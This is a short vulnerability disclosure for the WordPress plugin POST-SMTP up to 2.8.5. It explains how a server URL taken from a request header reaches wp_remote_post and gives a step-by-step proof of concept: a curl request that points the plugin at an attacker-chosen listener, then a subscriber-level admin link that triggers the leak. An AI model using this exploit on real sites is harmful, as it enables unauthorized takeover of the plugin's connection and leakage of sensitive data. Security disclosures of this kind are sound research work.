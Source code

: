 ### POST-SMTP

- **Application**: POST-SMTP<= 2.8.5

- **Threat Impact**: Sensitive data leakage

- **Code**: Server URL is get from request header, then updated. Then in `disconnect_app`, the server URL is used in sink function `wp_remote_post` as URL host.

  ```
  public function connect_app( WP_REST_Request $request ) {
    ...
    $this->server_url = $request->get_header( 'server_url' );
    ...
  }
  
  ```
  
  ```
  public function disconnect_app() {
    ...
    $response = wp_remote_post(
  					"{$this->server_url}/disconnect-app",
    ...
  				);
  }
  ```
  
- **POC**:

  1. Listen on 8888 on server side

  2. Send the following curl request to set the server

     ```
     curl --location --request POST 'http://test-server/wp-json/post-smtp/v1/connect-app' \
     --header 'auth-key;' \
     --header 'server-url: http://127.0.0.1:8888' \
     --header 'fcm-token: bbbb'
     ```

  3. Login (subscriber is also ok), visit `http://test-server/wp-admin/admin.php?action=post_smtp_disconnect_app&auth_token=bbbb`

  4. Receive a request on server side. 
